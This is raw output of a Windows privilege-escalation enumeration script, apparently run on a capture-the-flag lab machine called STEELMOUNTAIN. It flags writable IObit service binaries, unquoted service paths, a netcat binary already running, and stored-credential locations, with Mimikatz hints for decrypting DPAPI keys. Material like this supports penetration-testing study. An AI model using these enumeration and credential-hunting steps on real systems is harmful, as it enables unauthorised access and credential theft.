TMP=C:\Users\bill\AppData\Local\Temp\1
USERDOMAIN=STEELMOUNTAIN
USERDOMAIN_ROAMINGPROFILE=STEELMOUNTAIN
USERNAME=bill
USERPROFILE=C:\Users\bill
windir=C:\Windows

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] INSTALLED SOFTWARE <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
[i] Some weird software? Check for vulnerabilities in unknow software installed
  [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#software
Amazon
Common Files
Common Files
Internet Explorer
Internet Explorer
IObit
Microsoft.NET
Windows Mail
Windows Mail
Windows NT
Windows NT
WindowsPowerShell
WindowsPowerShell
    InstallLocation    REG_SZ    C:\Program Files (x86)\IObit\Advanced SystemCare\
    InstallLocation    REG_SZ    C:\Program Files (x86)\IObit\IObit Uninstaller\
    InstallLocation    REG_SZ    C:\Program Files (x86)\IObit\Advanced SystemCare\
    InstallLocation    REG_SZ    C:\Program Files (x86)\IObit\IObit Uninstaller\

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] Remote Desktop Credentials Manager <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
  [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#remote-desktop-credential-manager

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] WSUS <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
[i] You can inject 'fake' updates into non-SSL WSUS traffic (WSUXploit)
  [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#wsus

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] RUNNING PROCESSES <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
[i] Something unexpected is running? Check for vulnerabilities
  [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#running-processes

Image Name                     PID Services                                    
========================= ======== ============================================
System Idle Process              0 N/A                                         
System                           4 N/A                                         
smss.exe                       356 N/A                                         
csrss.exe                      496 N/A                                         
csrss.exe                      548 N/A                                         
wininit.exe                    576 N/A                                         
winlogon.exe                   584 N/A                                         
services.exe                   644 N/A                                         
lsass.exe                      652 SamSs                                       
svchost.exe                    708 BrokerInfrastructure, DcomLaunch, LSM,      
                                   PlugPlay, Power, SystemEventsBroker         
svchost.exe                    736 RpcEptMapper, RpcSs                         
ASCService.exe                 836 AdvancedSystemCareService9                  
dwm.exe                        844 N/A                                         
svchost.exe                    948 Dhcp, EventLog, lmhosts, Wcmsvc             
svchost.exe                   1000 CertPropSvc, DsmSvc, gpsvc, IKEEXT,         
                                   iphlpsvc, LanmanServer, ProfSvc, Schedule,  
                                   SENS, SessionEnv, ShellHWDetection, Themes, 
                                   Winmgmt                                     
svchost.exe                     56 EventSystem, FontCache, netprofm, nsi,      
                                   W32Time, WinHttpAutoProxySvc                
svchost.exe                    540 CryptSvc, Dnscache, LanmanWorkstation,      
                                   NlaSvc, WinRM                               
svchost.exe                   1056 BFE, DPS, MpsSvc                            
spoolsv.exe                   1204 Spooler                                     
amazon-ssm-agent.exe          1232 AmazonSSMAgent                              
svchost.exe                   1300 AppHostSvc                                  
LiteAgent.exe                 1324 AWSLiteAgent                                
LiveUpdate.exe                1444 LiveUpdateSvc                               
svchost.exe                   1496 TrkWks, UALSVC, UmRdpService                
svchost.exe                   1516 W3SVC, WAS                                  
wlms.exe                      1560 WLMS                                        
Ec2Config.exe                 1700 Ec2Config                                   
sppsvc.exe                    1976 sppsvc                                      
svchost.exe                   2020 TermService                                 
svchost.exe                   1156 PolicyAgent                                 
vds.exe                       1164 vds                                         
WmiPrvSE.exe                  2424 N/A                                         
taskhostex.exe                2664 N/A                                         
explorer.exe                  2736 N/A                                         
SppExtComObj.Exe              1868 N/A                                         
hfs.exe                       2152 N/A                                         
msdtc.exe                     3956 MSDTC                                       
nc.exe                        2672 N/A                                         
conhost.exe                    616 N/A                                         
cmd.exe                       3936 N/A                                         
WmiPrvSE.exe                  3480 N/A                                         
WmiPrvSE.exe                  2868 N/A                                         
TrustedInstaller.exe          3724 TrustedInstaller                            
TiWorker.exe                  3732 N/A                                         
tasklist.exe                  2608 N/A                                         

[i] Checking file permissions of running processes (File backdooring - maybe the same files start automatically when Administrator logs in)
C:\Windows\Explorer.EXE NT SERVICE\TrustedInstaller:(F)

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\hfs.exe NT AUTHORITY\SYSTEM:(F)
                                                                                    STEELMOUNTAIN\bill:(F)

C:\Users\Public\nc.exe BUILTIN\Administrators:(I)(F)
                       STEELMOUNTAIN\bill:(I)(F)

C:\Windows\SysWOW64\cmd.exe NT SERVICE\TrustedInstaller:(F)

C:\Windows\SysWOW64\cmd.exe NT SERVICE\TrustedInstaller:(F)

C:\Windows\SysWOW64\Wbem\WMIC.exe NT SERVICE\TrustedInstaller:(F)

[i] Checking directory permissions of running processes (DLL injection)
C:\Windows\ NT SERVICE\TrustedInstaller:(F)

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\ NT AUTHORITY\SYSTEM:(OI)(CI)(F)
                                                                             STEELMOUNTAIN\bill:(OI)(CI)(F)

C:\Users\Public\ BUILTIN\Administrators:(OI)(CI)(F)

C:\Windows\SysWOW64\ NT SERVICE\TrustedInstaller:(F)

C:\Windows\SysWOW64\ NT SERVICE\TrustedInstaller:(F)

C:\Windows\SysWOW64\wbem\ NT SERVICE\TrustedInstaller:(F)

C:\Windows\SysWOW64\ NT SERVICE\TrustedInstaller:(F)

C:\Windows\SysWOW64\ NT SERVICE\TrustedInstaller:(F)

C:\Windows\SysWOW64\ NT SERVICE\TrustedInstaller:(F)

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] RUN AT STARTUP <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
[i] Check if you can modify any binary that is going to be executed by admin or if you can impersonate a not found binary
  [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#run-at-startup

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] AlwaysInstallElevated? <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
[i] If '1' then you can install a .msi file with admin privileges ;)
  [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [*] NETWORK <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] CURRENT SHARES <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-

Share name   Resource                        Remark

-------------------------------------------------------------------------------
C$           C:\                             Default share                     
IPC$                                         Remote IPC                        
ADMIN$       C:\Windows                      Remote Admin                      
The command completed successfully.

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] INTERFACES <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-

Windows IP Configuration

   Host Name . . . . . . . . . . . . : steelmountain
   Primary Dns Suffix  . . . . . . . : 
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : eu-west-1.ec2-utilities.amazonaws.com
                                       eu-west-1.compute.internal

Ethernet adapter Ethernet 2:

   Connection-specific DNS Suffix  . : eu-west-1.compute.internal
   Description . . . . . . . . . . . : AWS PV Network Device #0
   Physical Address. . . . . . . . . : 02-99-D1-4B-82-FC
   DHCP Enabled. . . . . . . . . . . : Yes
   Autoconfiguration Enabled . . . . : Yes
   Link-local IPv6 Address . . . . . : fe80::841b:4ca5:ba80:80a3%14(Preferred) 
   IPv4 Address. . . . . . . . . . . : 10.10.247.243(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Lease Obtained. . . . . . . . . . : Friday, June 5, 2020 11:03:18 PM
   Lease Expires . . . . . . . . . . : Saturday, June 6, 2020 12:03:18 AM
   Default Gateway . . . . . . . . . : 10.10.0.1
   DHCP Server . . . . . . . . . . . : 10.10.0.1
   DHCPv6 IAID . . . . . . . . . . . : 335944513
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-25-20-00-54-08-00-27-EA-60-57
   DNS Servers . . . . . . . . . . . : 10.0.0.2
   NetBIOS over Tcpip. . . . . . . . : Enabled

Tunnel adapter isatap.eu-west-1.compute.internal:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : eu-west-1.compute.internal
   Description . . . . . . . . . . . : Microsoft ISATAP Adapter #2
   Physical Address. . . . . . . . . : 00-00-00-00-00-00-00-E0
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] USED PORTS <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
[i] Check for services restricted from the outside
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       736
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING       2020
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING       2152
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49152          0.0.0.0:0              LISTENING       576
  TCP    0.0.0.0:49153          0.0.0.0:0              LISTENING       948
  TCP    0.0.0.0:49154          0.0.0.0:0              LISTENING       1000
  TCP    0.0.0.0:49155          0.0.0.0:0              LISTENING       1204
  TCP    0.0.0.0:49159          0.0.0.0:0              LISTENING       652
  TCP    0.0.0.0:49161          0.0.0.0:0              LISTENING       644
  TCP    0.0.0.0:49162          0.0.0.0:0              LISTENING       1156
  TCP    10.10.247.243:139      0.0.0.0:0              LISTENING       4
  TCP    [::]:80                [::]:0                 LISTENING       4
  TCP    [::]:135               [::]:0                 LISTENING       736
  TCP    [::]:445               [::]:0                 LISTENING       4
  TCP    [::]:3389              [::]:0                 LISTENING       2020
  TCP    [::]:5985              [::]:0                 LISTENING       4
  TCP    [::]:47001             [::]:0                 LISTENING       4
  TCP    [::]:49152             [::]:0                 LISTENING       576
  TCP    [::]:49153             [::]:0                 LISTENING       948
  TCP    [::]:49154             [::]:0                 LISTENING       1000
  TCP    [::]:49155             [::]:0                 LISTENING       1204
  TCP    [::]:49159             [::]:0                 LISTENING       652
  TCP    [::]:49161             [::]:0                 LISTENING       644
  TCP    [::]:49162             [::]:0                 LISTENING       1156

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] FIREWALL <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-

Firewall status:
-------------------------------------------------------------------
Profile                           = Standard
Operational mode                  = Disable
Exception mode                    = Enable
Multicast/broadcast response mode = Enable
Notification mode                 = Disable
Group policy version              = Windows Firewall
Remote admin mode                 = Disable

Ports currently open on all network interfaces:
Port   Protocol  Version  Program
-------------------------------------------------------------------
No ports are currently open on all network interfaces.

IMPORTANT: Command executed successfully.
However, "netsh firewall" is deprecated;
use "netsh advfirewall firewall" instead.
For more information on using "netsh advfirewall firewall" commands
instead of "netsh firewall", see KB article 947709
at http://go.microsoft.com/fwlink/?linkid=121488 .

Domain profile configuration:
-------------------------------------------------------------------
Operational mode                  = Enable
Exception mode                    = Enable
Multicast/broadcast response mode = Enable
Notification mode                 = Disable

Service configuration for Domain profile:
Mode     Customized  Name
-------------------------------------------------------------------
Enable   No          Remote Desktop

Allowed programs configuration for Domain profile:
Mode     Traffic direction    Name / Program
-------------------------------------------------------------------

Port configuration for Domain profile:
Port   Protocol  Mode    Traffic direction     Name
-------------------------------------------------------------------

ICMP configuration for Domain profile:
Mode     Type  Description
-------------------------------------------------------------------
Enable   2     Allow outbound packet too big

Standard profile configuration (current):
-------------------------------------------------------------------
Operational mode                  = Disable
Exception mode                    = Enable
Multicast/broadcast response mode = Enable
Notification mode                 = Disable

Service configuration for Standard profile:
Mode     Customized  Name
-------------------------------------------------------------------
Enable   No          Remote Desktop

Allowed programs configuration for Standard profile:
Mode     Traffic direction    Name / Program
-------------------------------------------------------------------

Port configuration for Standard profile:
Port   Protocol  Mode    Traffic direction     Name
-------------------------------------------------------------------

ICMP configuration for Standard profile:
Mode     Type  Description
-------------------------------------------------------------------
Enable   2     Allow outbound packet too big

Log configuration:
-------------------------------------------------------------------
File location   = C:\Windows\system32\LogFiles\Firewall\pfirewall.log
Max file size   = 4096 KB
Dropped packets = Disable
Connections     = Disable

IMPORTANT: Command executed successfully.
However, "netsh firewall" is deprecated;
use "netsh advfirewall firewall" instead.
For more information on using "netsh advfirewall firewall" commands
instead of "netsh firewall", see KB article 947709
at http://go.microsoft.com/fwlink/?linkid=121488 .

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] ARP <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-

Interface: 10.10.247.243 --- 0xe
  Internet Address      Physical Address      Type
  10.10.0.1             02-c8-85-b5-5a-aa     dynamic   
  10.10.255.255         ff-ff-ff-ff-ff-ff     static    
  169.254.169.254       02-c8-85-b5-5a-aa     dynamic   
  224.0.0.22            01-00-5e-00-00-16     static    
  224.0.0.252           01-00-5e-00-00-fc     static    
  255.255.255.255       ff-ff-ff-ff-ff-ff     static    

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] ROUTES <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
===========================================================================
Interface List
 14...02 99 d1 4b 82 fc ......AWS PV Network Device #0
  1...........................Software Loopback Interface 1
 24...00 00 00 00 00 00 00 e0 Microsoft ISATAP Adapter #2
===========================================================================

IPv4 Route Table
===========================================================================
Active Routes:
Network Destination        Netmask          Gateway       Interface  Metric
          0.0.0.0          0.0.0.0        10.10.0.1    10.10.247.243     10
        10.10.0.0      255.255.0.0         On-link     10.10.247.243    266
    10.10.247.243  255.255.255.255         On-link     10.10.247.243    266
    10.10.255.255  255.255.255.255         On-link     10.10.247.243    266
        127.0.0.0        255.0.0.0         On-link         127.0.0.1    306
        127.0.0.1  255.255.255.255         On-link         127.0.0.1    306
  127.255.255.255  255.255.255.255         On-link         127.0.0.1    306
  169.254.169.123  255.255.255.255        10.10.0.1    10.10.247.243     10
  169.254.169.249  255.255.255.255        10.10.0.1    10.10.247.243     10
  169.254.169.250  255.255.255.255        10.10.0.1    10.10.247.243     10
  169.254.169.251  255.255.255.255        10.10.0.1    10.10.247.243     10
  169.254.169.253  255.255.255.255        10.10.0.1    10.10.247.243     10
  169.254.169.254  255.255.255.255        10.10.0.1    10.10.247.243     10
        224.0.0.0        240.0.0.0         On-link         127.0.0.1    306
        224.0.0.0        240.0.0.0         On-link     10.10.247.243    266
  255.255.255.255  255.255.255.255         On-link         127.0.0.1    306
  255.255.255.255  255.255.255.255         On-link     10.10.247.243    266
===========================================================================
Persistent Routes:
  None

IPv6 Route Table
===========================================================================
Active Routes:
 If Metric Network Destination      Gateway
  1    306 ::1/128                  On-link
 14    266 fe80::/64                On-link
 14    266 fe80::841b:4ca5:ba80:80a3/128
                                    On-link
  1    306 ff00::/8                 On-link
 14    266 ff00::/8                 On-link
===========================================================================
Persistent Routes:
  None

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] Hosts file <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] CACHE DNS <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] WIFI <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
The system cannot find the file specified.
The following command was not found: wlan show profile.

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_->[*] BASIC USER INFO <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
[i] Check if you are inside the Administrators group or if you have enabled any token that can be use to escalate privileges like SeImpersonatePrivilege, SeAssignPrimaryPrivilege, SeTcbPrivilege, SeBackupPrivilege, SeRestorePrivilege, SeCreateTokenPrivilege, SeLoadDriverPrivilege, SeTakeOwnershipPrivilege, SeDebbugPrivilege
  [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#users-and-groups

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] CURRENT USER <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
User name                    bill
Full Name                    Bill Harper
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            9/26/2019 11:26:45 PM
Password expires             Never
Password changeable          9/26/2019 11:26:45 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   6/5/2020 11:03:34 PM

Logon hours allowed          All

Local Group Memberships      *Users                
Global Group memberships     *None                 
The command completed successfully.

The request will be processed at a domain controller for domain WORKGROUP.

USER INFORMATION
----------------

User Name          SID                                           
================== ==============================================
steelmountain\bill S-1-5-21-3029548963-3893655183-1231094572-1001

GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE               Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192                                                    

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled

ERROR: Unable to get user claims information.

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] USERS <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-

User accounts for \\STEELMOUNTAIN

-------------------------------------------------------------------------------
Administrator            bill                     Guest                    
The command completed successfully.

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] GROUPS <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-

Aliases for \\STEELMOUNTAIN

-------------------------------------------------------------------------------
*Access Control Assistance Operators
*Administrators
*Backup Operators
*Certificate Service DCOM Access
*Cryptographic Operators
*Distributed COM Users
*Event Log Readers
*Guests
*Hyper-V Administrators
*IIS_IUSRS
*Network Configuration Operators
*Performance Log Users
*Performance Monitor Users
*Power Users
*Print Operators
*RDS Endpoint Servers
*RDS Management Servers
*RDS Remote Access Servers
*Remote Desktop Users
*Remote Management Users
*Replicator
*Users
*WinRMRemoteWMIUsers__
The command completed successfully.

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] ADMINISTRATORS GROUPS <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
The command completed successfully.

 

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] CURRENT LOGGED USERS <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>bill                  console             1  Active      none   6/5/2020 11:03 PM
 

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] Kerberos Tickets <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-

Current LogonId is 0:0x29129

Cached Tickets: (0)
 

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] CURRENT CLIPBOARD <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
[i] Any password inside the clipboard?

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [*] SERVICES VULNERABILITIES <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] SERVICE BINARY PERMISSIONS WITH WMIC + ICACLS <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
  [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services
C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe STEELMOUNTAIN\bill:(I)(RX,W)

C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe NT AUTHORITY\SYSTEM:(I)(F)

C:\Program Files\Amazon\XenTools\LiteAgent.exe NT AUTHORITY\SYSTEM:(I)(F)

C:\Program Files\Amazon\Ec2ConfigService\Ec2Config.exe NT AUTHORITY\SYSTEM:(I)(F)

C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe STEELMOUNTAIN\bill:(I)(RX,W)

C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe STEELMOUNTAIN\bill:(I)(RX,W)

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe NT SERVICE\TrustedInstaller:(F)

C:\Windows\SysWow64\perfhost.exe NT SERVICE\TrustedInstaller:(F)

C:\Windows\PSSDNSVC.EXE NT AUTHORITY\SYSTEM:(I)(F)

C:\Windows\servicing\TrustedInstaller.exe NT SERVICE\TrustedInstaller:(F)

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] CHECK IF YOU CAN MODIFY ANY SERVICE REGISTRY <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
  [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] UNQUOTED SERVICE PATHS <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
[i] When the path is not quoted (ex: C:\Program files\soft\new folder\exec.exe) Windows will try to execute first 'C:\Progam.exe', then 'C:\Program Files\soft\new.exe' and finally 'C:\Program Files\soft\new folder\exec.exe'. Try to create 'C:\Program Files\soft\new.exe'
[i] The permissions are also checked and filtered using icacls
  [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services
AdvancedSystemCareService9 
 C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe 
Invalid parameter "Files"
AWSLiteAgent 
 C:\Program Files\Amazon\XenTools\LiteAgent.exe 
Invalid parameter "Files\Amazon\XenTools\LiteAgent.exe"
IObitUnSvr 
 C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe 
Invalid parameter "Files"
LiveUpdateSvc 
 C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe 
Invalid parameter "Files"
NetTcpPortSharing 
 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe 
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe NT SERVICE\TrustedInstaller:(F)

PerfHost 
 C:\Windows\SysWow64\perfhost.exe 
C:\Windows\SysWow64\perfhost.exe NT SERVICE\TrustedInstaller:(F)

PsShutdownSvc 
 C:\Windows\PSSDNSVC.EXE 
C:\Windows\PSSDNSVC.EXE NT AUTHORITY\SYSTEM:(I)(F)

TrustedInstaller 
 C:\Windows\servicing\TrustedInstaller.exe 
C:\Windows\servicing\TrustedInstaller.exe NT SERVICE\TrustedInstaller:(F)

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [*] DLL HIJACKING in PATHenv variable <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
[i] Maybe you can take advantage of modifying/creating some binary in some of the following locations
[i] PATH variable entries permissions - place binary or DLL to execute instead of legitimate
  [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#dll-hijacking
C:\Windows\system32 NT SERVICE\TrustedInstaller:(F)
 
C:\Windows NT SERVICE\TrustedInstaller:(F)
 
C:\Windows\System32\Wbem NT SERVICE\TrustedInstaller:(F)
 

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [*] CREDENTIALS <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] WINDOWS VAULT <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
  [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#windows-vault

Currently stored credentials:

    Target: LegacyGeneric:target=STEELMOUNTAIN\bill
    Type: Generic 
    User: STEELMOUNTAIN\bill
    

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] DPAPI MASTER KEYS <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
[i] Use the Mimikatz 'dpapi::masterkey' module with appropriate arguments (/rpc) to decrypt
  [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#dpapi

    Directory: C:\Users\bill\AppData\Roaming\Microsoft\Protect

Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
d---s         9/26/2019  11:29 PM            S-1-5-21-3029548963-3893655183-123
                                             1094572-1001                      

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] DPAPI MASTER KEYS <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
[i] Use the Mimikatz 'dpapi::cred' module with appropriate /masterkey to decrypt
[i] You can also extract many DPAPI masterkeys from memory with the Mimikatz 'sekurlsa::dpapi' module
  [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#dpapi
Looking inside C:\Users\bill\AppData\Roaming\Microsoft\Credentials\
16E038FE7CEF476A77403E8E0EE760B8
Looking inside C:\Users\bill\AppData\Local\Microsoft\Credentials\

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] Unattended files <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] SAM 
'SYSTEM' is not recognized as an internal or external command,
operable program or batch file.

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] McAffe SiteList.xml <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
 Volume in drive C has no label.
 Volume Serial Number is 2E4A-906A
File Not Found
 Volume in drive C has no label.
 Volume Serial Number is 2E4A-906A
File Not Found
 Volume in drive C has no label.
 Volume Serial Number is 2E4A-906A
File Not Found
 Volume in drive C has no label.
 Volume Serial Number is 2E4A-906A
File Not Found

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] GPP Password <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
The system cannot find the path specified.
File Not Found
The system cannot find the path specified.
File Not Found

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] Cloud Creds <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
File Not Found
File Not Found

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] AppCmd <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
  [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#appcmd-exe
C:\Windows\system32\inetsrv\appcmd.exe exists. 

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] Files an registry that may contain credentials <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
[i] Searching specific files that may contains credentials.
  [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#credentials-inside-files
Looking inside HKCU\Software\ORL\WinVNC3\Password
Looking inside HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4/password
Looking inside HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\WinLogon
    DefaultDomainName    REG_SZ    
    DefaultUserName    REG_SZ    
Looking inside HKLM\SYSTEM\CurrentControlSet\Services\SNMP

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SNMP\Parameters

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SNMP\Parameters\ExtensionAgents
    W3SVC    REG_SZ    Software\Microsoft\W3SVC\CurrentVersion

Looking inside HKCU\Software\TightVNC\Server
Looking inside HKCU\Software\SimonTatham\PuTTY\Sessions
Looking inside HKCU\Software\OpenSSH\Agent\Keys
C:\Windows\Panther\setupinfo
C:\Windows\System32\inetsrv\appcmd.exe
C:\Windows\SysWOW64\inetsrv\appcmd.exe
C:\Windows\WinSxS\amd64_ipamprov-dhcp_31bf3856ad364e35_6.3.9600.16384_none_64e8a179c6f2a167\ScheduledTasks.xml
C:\Windows\WinSxS\amd64_ipamprov-dns_31bf3856ad364e35_6.3.9600.16384_none_824aabe06aee1705\ScheduledTasks.xml
C:\Windows\WinSxS\amd64_microsoft-windows-d..rvices-domain-files_31bf3856ad364e35_6.3.9600.16384_none_8bc96e4517571480\ntds.dit
C:\Windows\WinSxS\amd64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.16384_none_01a7d2cf88c95dc0\appcmd.exe
C:\Windows\WinSxS\amd64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.17031_none_01dac51388a3a832\appcmd.exe
C:\Windows\WinSxS\amd64_microsoft-windows-webenroll.resources_31bf3856ad364e35_6.3.9600.16384_en-us_7427d216367d8d3f\certnew.cer
C:\Windows\WinSxS\wow64_ipamprov-dhcp_31bf3856ad364e35_6.3.9600.16384_none_6f3d4bcbfb536362\ScheduledTasks.xml
C:\Windows\WinSxS\wow64_ipamprov-dns_31bf3856ad364e35_6.3.9600.16384_none_8c9f56329f4ed900\ScheduledTasks.xml
